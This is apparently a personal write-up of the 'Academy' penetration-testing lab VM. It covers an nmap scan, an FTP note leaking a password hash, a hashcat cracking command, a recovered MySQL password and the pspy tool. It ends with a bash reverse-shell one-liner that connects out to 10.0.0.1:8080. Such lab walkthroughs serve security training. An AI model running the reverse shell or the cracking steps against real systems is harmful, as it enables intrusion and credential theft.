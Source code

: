 # Academy

## IP Address

`10.0.2.5`

## nmap

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-20 21:47 EDT
    Nmap scan report for 10.0.2.5
    Host is up (0.00057s latency).
    Not shown: 65532 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.0.2.4
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 2
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
    |   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
    |_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
    80/tcp open  http    Apache httpd 2.4.38 ((Debian))
    |_http-title: Apache2 Debian Default Page: It works
    |_http-server-header: Apache/2.4.38 (Debian)
    MAC Address: 08:00:27:0C:57:23 (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 4.X|5.X
    OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
    OS details: Linux 4.15 - 5.6
    Network Distance: 1 hop
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.57 ms 10.0.2.5

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds

## Note.txt


    Hello Heath !
    Grimmie has setup the test website for the new academy.
    I told him not to use the same password everywhere, he will change it ASAP.


    I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

    INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
    ('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

    The StudentRegno number is what you use for login.


    Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
    We can always adapt it to our needs.

    -jdelta


## Identifying Hash

`Hash-identifier` (Built into Kali)

## Cracking MD5 Hash

`hashcat -m 0 cd73502828457d15655bbd7a63fb0bc8 /usr/share/wordlists/rockyou.txt`

Hash:Password - `cd73502828457d15655bbd7a63fb0bc8:student`

## mySQL Password

Found using linpeas - `$mysql_password = "My_V3ryS3cur3_P4ss";`

## pspy64 

pspy is a command line tool designed to snoop on processes without need for root permissions.

`https://github.com/DominicBreuker/pspy`

## Bash Reverse Shell

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
